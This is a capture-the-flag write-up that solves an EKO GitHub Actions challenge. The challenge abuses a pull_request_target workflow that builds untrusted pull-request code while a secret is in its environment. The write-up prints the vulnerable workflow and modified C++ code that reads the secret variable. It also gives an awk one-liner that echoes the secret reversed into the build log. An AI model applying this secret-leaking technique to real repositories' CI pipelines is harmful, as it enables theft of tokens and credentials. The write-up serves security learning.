


# Fork Knife (500 points) - Github

You must solve the first challenge to get the answer of this 2nd challeng.


This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There are a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.



Looking at the actions tab to see the workflow running.


and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}
